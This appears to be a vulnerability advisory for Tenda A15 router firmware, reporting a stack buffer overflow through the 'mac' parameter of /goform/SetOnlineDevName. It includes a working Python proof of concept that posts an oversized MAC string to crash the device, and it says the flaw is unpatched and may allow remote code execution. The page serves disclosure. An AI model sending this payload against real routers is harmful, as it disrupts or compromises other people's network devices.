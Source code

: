 # Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "mac" parameter at /goform/SetOnlineDevName.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In formSetDeviceName function, get the mac parameter via websGetVar and pass it to the second parameter of set_device_name

![1703731950136](image/SetOnlineDevName.mac.zh-cn/1703731950136.png)

In the set_device_name function, the dev_mac variable is only verified for existence and is used in the sprintf function without any length checks, which could lead to an attacker using this buffer overflow to perform a DOS attack and an RCE attack.

![1703731977335](image/SetOnlineDevName.mac.zh-cn/1703731977335.png)

## POC

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/SetOnlineDevName'
payload = {
    "mac": '9c:fc:e8:da:9c:5b'*0x500,
    "devName": 'devname1'
}
res = requests.post(url=url, data=payload)
print(res.content)
```

## Trigger details

See video content
[![](https://res.cloudinary.com/marcomontalbano/image/upload/v1704443635/video_to_markdown/images/youtube--Z7tQwSZWb2g-c05b58ac6eb4c4700831b2b3070cd403.jpg)](https://youtu.be/Z7tQwSZWb2g "")

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html
